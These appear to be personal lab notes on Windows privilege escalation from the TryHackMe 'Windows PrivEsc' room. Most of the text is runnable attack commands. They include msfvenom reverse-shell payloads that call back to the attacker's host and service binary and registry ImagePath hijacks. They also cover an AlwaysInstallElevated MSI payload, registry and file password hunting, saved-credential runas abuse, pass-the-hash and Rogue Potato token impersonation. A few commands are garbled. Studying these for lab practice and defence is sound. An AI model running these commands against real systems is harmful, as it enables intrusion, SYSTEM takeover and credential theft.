

# Windows Privelege Escalation

Windows IP Address: 10.0.2.30
Kali IP Address: 10.0.2.26

msfvenom Utility:
msfvenom is a compbination of Msfpayload and msfencode, putting both of these tools into a single Framework. 

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.26 LPORT=7777 -f exe -o ./reverse.exe

```
By the initisting the impacket file - smbserver.py, create the share directory:

```
python /usr/share/doc/python3-impacket/examples/smbserver.py tools .

```

Copy the reverse.exe created on kali machine to Windows Account(user):

```
copy \\10.0.2.26\reverse.

.\reverse.exe

```

Result:
```
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.26] from (UNKNOWN) [10.0.2.30] 49740
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\PrivEsc>whoami
whoami
desktop-3ku67mt\user

C:\PrivEsc>

```
Get a powershell command from the CMD:

```
C:\PrivEsc>powershell.exe -exec bypass

PS C:\PrivEsc>
```

Information: PowerUp.ps1 and SharpUp.exe - those are tools to enumerate the Windows machine target.

Seatbelt.exe - also an enumeration tool to allow the privilege misconfiguration on a Windows machine

Winpeas - the same as LinPeas

# Kernel Exploits 

1. Enumerate the version by a command - systeminfo

systeminfo  - displays detailed configuration information about computer and its operating system, including operating system configuration, security information, product ID, and hardware properties. 

Resource:
1.  https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo

2. https://www.hackingarticles.in/windows-privilege-escalation-kernel-exploit/

3. https://www.hackingarticles.in/window-privilege-escalation-automated-script/

4. https://github.com/bitsadmin/wesng.git

SMB share Default command: 
```
impacket-smbserver share $(pwd)
```

Command of using the wesng tool:

```
└─$ python wes.py ~/tools/tools/systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more
Windows Exploit Suggester 1.05 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 10 Version 22H2 for x64-based Systems
    - Generation: 10
    - Build: 19045
    - Version: 22H2
    - Architecture: x64-based
    - Installed hotfixes (9): KB5017022, KB5064399, KB5011048, KB5015684, KB5026037, KB5065429, KB5014032, KB501670
5, KB5063979
[+] Loading definitions
    - Creation date of definitions: 20251003
[+] Determining missing patches
[+] Applying display filters
[-] Done. No vulnerabilities found


```

Services are programs that run in the background , accepting input or performing regular tasks. If services run with SYSTEM privileges and are misconfigured , exploiting them may lead to command execution with SYSTEM privileges as well.  (By Tib3rius)

Query the config:
```
> sc.exe qc <name>
```
Query the current status of a service:
```
> sc.exe query <name>
```
Modify the configuration option of the service:
```
> sc.exe config <name> <option>= <value>
```
Start/Stop a service:
```
> net start/stop <name> 
```

Common Service Misconfiguration:
1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

# Definitions

1. Insecure Service Properties
Each service has an ACL which defines certain service-specific permissions. We can change the executable of a service, which runs with SYSTEM privileges. But in case the START/STOP service is disabled then attacker could not escalate the privilege.

2. Unquoted Service Path
Executables in Windows can be run without using their extension (whoami.exe to whoami) Consider the following unquoted path: C:\Program Files\Some Dir\Somesvc.exe. So the C:\Program Files\Some could be executable.

3. Weak Registry Permissions
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify a service.

4. Insecure Service Executable
If the original service executable is modifiable by a user, we can simply replace it with our reverse shell executable  

5. DLL Hijacking 

A service will try to load functionality from a library called a DLL. Whatever functionality the DLL provides, will be executed with the same privilges as the service that loaded it. Needed absolute path (the complete, explicit location of a file or directory, starting from the root of the file system)

# TryHackMe - Windows PrivEsc

# Task 3 (Service Exploits)

Question: What is the original BINARY_PATH_NAME of the daclsvc service?

Answer: C:\Program Files\DACL Service\daclservice.exe

# Task 4  (Service Exploits)

Question: What is the BINARY_PATH_NAME of the unquotedsvc service?

Answer:  C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

# Task 5 (Service Exploits) Weak Registry Permissions
Get the shell as NT system/authority

Query the 'regsvc' with a command: ``` sc qc regsvc ```

Using accesschk.exe, check the entry for regsvc is writable byNT Authority\Interactive: ```C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc ```  

Overwrite the ImagePath: ``` reg add HKLM\System\CurrentControlSet\Services\regsvc /v ImagePath /t ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f ```

Start the service: ``` net start regsvc ```

# Task 6 (Service Exploits) Insecure Service Executables

Query the "filepermsvc" service: ``` sc qc filepermsvc```

Using accesschk.exe, the service binary is writable by everyone: ```C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"```

Copy the reverse shell and replace it: ```copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y```

Run the SYSTEM privileges: ```net start filepermsvc```

# Registry Exploits

# Autoruns
Windows can be configured to run commands at startup with elevated privileges. 

These Autoruns are configured in the Registry. If you are able to write to an Autorun executable, and are able  to restart the system (or wait for it to be restarted) you may be able to escalate privileges. 

# Task 7 Registry - Autoruns

Query the registry for Autorun executables: ```reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run```

Using accesschk.exe, noting that it is writable: ```C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"```

Copy the reverse.exe to Autorun: ```copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y```

# AlwaysInstallElevated
 MSI files are packages files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated privileges. 

 Resources:
 1. https://learn.microsoft.com/en-us/windows/win32/msi/standard-installer-command-line-options
 2. https://www.pdq.com/blog/msi-vs-exe-the-battle-of-the-installers/

# Task 8 Registry - AlwaysInstallElevated

Query the registry: 
```reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Generate the reverse shell with .msi extension:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```
Trigger: ```msiexec /quiet /qn /i C:\PrivEsc\reverse.msi```

#  Passwords

Query: ```reg query HKLM /f password /t REG_SZ /s``` or ```reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"```

Usage winexe

Resource: https://www.kali.org/tools/winexe/

# Saved Credentials

Windows has a runas command to allow to run commands under a user with privileges. Windows also allows users to save theit credentials to the system, and these saved credentials can be used to bypass this requirement. 

List any saaved credentials. ``` cmdkey /list ```

Using runas with the admins creds: ```runas /savecred /user:admin C:\PrivEsc\reverse.exe```

Resource: https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)

# Configuration Files
Some administrators will lieave configurations files on the system with passwordsin them. The Unattend.xml is an example.

Recursively search file with pass in the name, or ending: ``` > dir /s *pass* == *.config```

Recursively search for files that contains the word "password" with such endings ```> findstr /si password *xml *.ini *.txt```

# Task 10 Passwords - Saved Creds

```C:\PrivEsc>type C:\Windows\Panther\Unattend.xml```

# SAM 
Windows stores password hashes in the Security Account Manager. The hashes are encryptedwith a key which can be found in the file named SYSTEM. 

SAM/SYSTEM Locations C:\Windows\System32\config directory. 

# Pass the Hash 

``` pth-winexe -U 'admin%hash' //10.201.86.23 cmd.exe ```

Resource:
1. https://www.kali.org/tools/passing-the-hash/
2. https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/

# Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically or when triggered by some event. Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM. 

# Task 13 Scheduled Tasks

Query the CleanUp.ps1: ```C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1```

Run the reverse.exe in a file: ```echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1```

# Insecure GUI Apps 

Some applications are run with admin privileges. An attacker could trigger the application to run and then use the directory bar to rin cmd.exe

# Startup Apps 
Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.
The defaukt directory in Windows: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
If we can create files in this directory, we can use reverse shell executable and escalate privileges.



# Hot Potato

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. 
The attack tricks Windows into authentication as the SYSTEM user to fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. 

# Task 16 Token Impersonation - Rogue Potato

```sudo socat tcp-listen:135,reuseaddr,fork tcp:10.201.115.175:9999```

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.15.43 LPORT=8888 -f exe -o reverse2.exe```

```C:\PrivEsc\PsExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe``` --> local system on a victim

From the shell (local system):
```C:\PrivEsc\RoguePotato.exe -r 10.5.16.43 -e "C:\PrivEsc\reverse2.exe" -l 9999```

# Token Impersonation

There are service accounts such as SQL. Service accounts can be given special privilegesin order for them to run their services and cannot be logged into directly. Unfortunately, making easier to escalate them

Rotten Potato

The original Rotten Potato exploit was identifiedin 2016. Service accounts could intercept a SYSTEM ticket and useit to impersonate the SYSTEM user. This was possible because accounts usually have the 'SeImpersonatePrivilege' privilege enabled. 

# Port Forwarding

Sometimes it is easier to run exploit code on Kali, but the vulnerable service is running on port on Windows, so to access the service in Kali, we simply implement Port Forwarding


